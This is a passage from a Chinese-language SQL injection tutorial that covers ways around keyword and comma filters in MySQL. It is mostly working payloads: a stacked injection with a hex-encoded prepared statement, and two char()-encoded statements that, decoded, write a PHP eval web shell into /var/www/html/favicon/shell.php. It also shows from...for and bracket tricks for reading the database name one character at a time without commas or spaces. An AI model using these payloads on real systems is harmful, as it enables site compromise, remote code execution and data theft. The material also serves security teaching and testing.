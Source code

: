 即payload类似如下：

```sql
1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#
```

#### MySql预处理配合字符串拼接绕过关键字

原理就是借助`char()`函数将ascii码转化为字符然后再使用`concat()`函数将字符连接起来，有了前面的基础这里应该很好理解了：

```sql
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```

也可以不用concat函数，直接用char函数也具有连接功能：

```sql
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```

### 过滤逗号绕过

当逗号被过滤了之后，我们便不能向下面这样正常的时候substr()函数和limit语句了：

```sql
select substr((select database()),1,1);
select * from users limit 0,1;
```

#### 使用from...for...绕过

我们可以使用 `from...for..` 语句替换 substr() 函数里的 `,1,1`：

```sql
select substr((select database()) from 1 for 1);
# 此时 from 1 for 1 中的两个1分别代替 substr() 函数里的两个1

select substr((select database()) from 1 for 1);    # s
select substr((select database()) from 2 for 1);    # e
select substr((select database()) from 3 for 1);    # c
select substr((select database()) from 4 for 1);    # u
select substr((select database()) from 5 for 1);    # r
select substr((select database()) from 6 for 1);    # i
select substr((select database()) from 7 for 1);    # t
select substr((select database()) from 8 for 1);    # y

# 如果过滤了空格, 则可以使用括号来代替空格:
select substr((select database())from(1)for(1));    # s
select substr((select database())from(2)for(1));    # e
select substr((select database())from(3)for(1));    # c
select substr((select database())from(4)for(1));    # u
select substr((select database())from(5)for(1));    # r
select substr((select database())from(6)for(1));    # i
select substr((select database())from(7)for(1));    # t
select substr((select database())from(8)for(1));    # y
```
